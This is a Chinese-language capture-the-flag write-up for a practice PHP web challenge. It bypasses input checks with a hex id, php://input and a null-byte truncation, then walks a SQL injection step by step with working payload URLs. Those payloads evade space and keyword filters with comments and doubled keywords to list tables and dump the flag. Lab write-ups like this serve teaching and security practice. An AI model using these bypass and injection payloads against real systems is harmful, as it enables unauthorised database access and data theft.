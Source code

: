 
- 三个参数 id b a 
- 阅读源码输出flag.txt条件 
    - id需要等于0 但第一个if id不能为0 可用十六进制0x0绕过
    - a 用php://input绕过
    - b长度得大于5 第一个字符不能为4 同时`eregi("111".substr($b,0,1),"1114")`为真
        - 用%00阶段 b=%0012345
- payload

```
POST /index.php?id=0x0&a=php://input&b=%0012345 HTTP/1.1
......

1112 is a nice lab!
```

- reponse`<!--index.phps-->﻿Come ON!!! {/^HT2mCpcvOLf}`
- 访问http://web.jarvisoj.com:32780/^HT2mCpcvOLf
  显示hi666 同时地址栏自动补全`http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=1`
- 猜测是sql注入 且服务器屏蔽了空格关键词
  用`/*123*/`注释代替空格 ununionion代替union selselectect代替select
- 查找列数`http://web.jarvisoj.com:32780/^HT2mCpcvOLf/index.php?id=0/*123*/ununionion/*123*/selselectect/*123*/1,2,3#` 返回3
- 查找数据库名`http://web.jarvisoj.com:32780/^HT2mCpcvOLf/index.php?id=0/*123*/ununionion/*123*/selselectect/*123*/1,2,database()#` 返回test
- 查找表名`http://web.jarvisoj.com:32780/^HT2mCpcvOLf/index.php?id=0/*1*/ununionion/*1*/selselectect/*1*/1,2,group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#` information_schema为数据库信息 0x74657374为test 返回content
- 查询content表的列`http://web.jarvisoj.com:32780/^HT2mCpcvOLf/index.php?id=0/*1*/ununionion/*1*/selselectect/*1*/1,2,group_concat(column_name)/*1*/frofromm/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74` 返回id,context,title
- 输出id context title `http://web.jarvisoj.com:32780/%5EHT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,group_concat(id,context,title)/*123*/frfromom/*111*/content#`
- 返回1PCTF{Fin4lly_U_got_i7_C0ngRatulation5}hi666
- PCTF{Fin4lly_U_got_i7_C0ngRatulation5}


